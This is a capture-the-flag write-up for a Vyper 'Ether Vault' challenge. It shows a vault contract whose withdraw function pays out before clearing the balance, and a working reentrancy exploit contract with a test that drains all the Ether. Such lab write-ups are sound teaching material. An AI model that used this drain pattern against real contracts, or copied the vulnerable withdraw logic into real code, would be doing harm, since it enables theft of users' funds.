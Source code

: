 ## 1) Challenge

> <cite>The Ether Vault allows deposits and withdrawals. It currently holds 10 Ether. Your objective is to drain all of the Ether from the vault.</cite>

Challenge created by [@jtriley_eth](https://twitter.com/jtriley_eth).


## 2) Code Review

`EtherVault.vy` contract ([source code](https://github.com/JoshuaTrujillo15/offensive_vyper/blob/main/contracts/ether-vault/EtherVault.vy)):

```python

# @version ^0.3.2

"""
@title Ether Liquidity Pool
@author jtriley.eth
"""


event Deposit:
    account: indexed(address)
    amount: uint256

event Withdrawal:
    account: indexed(address)
    amount: uint256


deposits: public(HashMap[address, uint256])


@external
@payable
def deposit():
    """
    @notice Deposits Ether.
    """
    self.deposits[msg.sender] = unsafe_add(self.deposits[msg.sender], msg.value)

    log Deposit(msg.sender, msg.value)


@external
def withdraw():
    """
    @notice Withdraws Ether.
    """
    amount: uint256 = self.deposits[msg.sender]

    raw_call(msg.sender, b"", value=amount)

    self.deposits[msg.sender] = 0

    log Withdrawal(msg.sender, amount)


@external
@payable
def __default__():
    """
    @notice Receives Ether as Deposit.
    """
    self.deposits[msg.sender] = unsafe_add(self.deposits[msg.sender], msg.value)

    log Deposit(msg.sender, msg.value)


```

Contract main functions:

- `deposit` and the fallback function `__default__` update the public variable `deposits` (a HashMap that holds the balances of different accounts), incrementing the balance of the account that calls the function (line 27 and line 52)

- `withdraw` takes the value from the `deposits` variable (line 37), sends this value  to `msg.sender` and later set the `deposits` balance for `msg.sender` equals to `0`

#### How can we drain all the ETH balance from the contract?

The `withdraw` function is vulnerable to a reentrancy attack because it first sends ETH to the caller and only later updates their balance. It means we can call again the withdraw function (in our fallback function) and drain all the funds from the contract. It is possible because the variable used to determine the withdrawal amount, i.e. `deposits`, is only updated after the ETH are sent, so if we re-enter the function by calling again as soon as we receive some ETH, it will hold the same value again (so we'll receive the same amount). If we repeat these steps until the  `EtherVault` has funds, we can drain all its ether.


## 3) Solution

The solution consists of four different steps:
- send `1` ETH to our attack contract
- from our contract, deposit `1` ETH so that the `deposits` variable for our contract will hold `1` ETH
- call the `withdraw` function
- inside the `__default__` fallback function, call the `withdraw` function again until the `EtherVault` balance is greater than `0`

`ether-vault.challenge.js`:
```javascript

    it('Exploit', async function () {
        // YOUR EXPLOIT HERE

        let exploit = await (await ethers.getContractFactory('EtherVaultExploit', deployer)).deploy(this.vault.address)

        await exploit.connect(attacker).run({
            value: ethers.utils.parseEther('1')
        });

    })

```


`EtherVaultExploit.vy`:
```python

# YOUR EXPLOIT HERE
@external
@payable
def run():
    raw_call(
        self.target,
        _abi_encode("", method_id=method_id("deposit()")),
        value=msg.value
    )

    Ethervault(self.target).withdraw()


@external
@payable
def __default__():
    if self.target.balance > 0:
        Ethervault(self.target).withdraw()

```


You can find the complete code [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/test/ether-vault.challenge.js) and [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/contracts/exploits/EtherVaultExploit.vy).


## 4) References

- [SWC-107 - Reentrancy](https://swcregistry.io/docs/SWC-107)